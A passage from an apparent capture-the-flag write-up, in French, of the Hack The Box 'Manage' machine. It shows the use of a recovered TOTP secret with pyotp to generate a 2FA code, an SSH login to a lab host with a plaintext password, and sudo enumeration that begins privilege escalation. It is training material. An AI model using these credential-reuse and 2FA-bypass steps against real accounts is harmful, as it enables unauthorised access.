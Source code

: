 Nous avons trouvé un secret TOTP (Time-based One-Time Password) encodé en Base32, utilisé pour l'authentification à deux facteurs dans le backup de useradmin.

### **2. Génération du Code OTP**

Utilisons Python avec la bibliothèque `pyotp` pour générer le code TOTP :

```python
pip install pyotp

cat > code.py << 'EOF'
import pyotp
totp = pyotp.TOTP('CLSSSMHYGLENX5HAIFBQ6L35UM')
print(totp.now())
EOF

python3 code.py
# Output: 768204 (change toutes les 30 secondes)
```

![Génération du code TOTP](/images/HTBManage/totp_generation.png)

### **3. Connexion SSH avec 2FA**

Connectons-nous via SSH en utilisant les identifiants récupérés et le code TOTP généré :

```bash
ssh useradmin@10.129.236.246
Password: onyRPCkaG4iX72BrRtKgbszd
Verification code: [CODE_GÉNÉRÉ]
```

![Connexion SSH réussie](/images/HTBManage/ssh_2fa_login.png)

{{< admonition success "Accès SSH Obtenu" >}}
Nous avons maintenant un accès SSH complet en tant qu'utilisateur `useradmin` !
{{< /admonition >}}

## **Phase 4 : Privilege Escalation**

### **1. Analyse des Privilèges Sudo**

On commence par vérifier les privilèges de l'user :

```bash
sudo -l
```

![Configuration sudo](/images/HTBManage/sudo_config.png)

{{< admonition tip "Configuration Identifiée" >}}
```
(ALL : ALL) NOPASSWD: /usr/sbin/adduser ^[a-zA-Z0-9]+$
```
